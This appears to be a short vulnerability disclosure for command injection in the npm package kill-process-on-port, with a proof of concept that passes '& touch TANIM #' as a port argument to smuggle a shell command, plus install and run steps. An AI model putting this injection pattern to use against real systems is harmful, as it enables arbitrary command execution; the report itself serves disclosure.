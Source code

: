 # Description

Command Injection in kill-process-on-port

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var a = require("kill-process-on-port");
a.killProcessOnPort("& touch TANIM #");
```

2. Execute the following commands in terminal:

```
npm i kill-process-on-port # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.
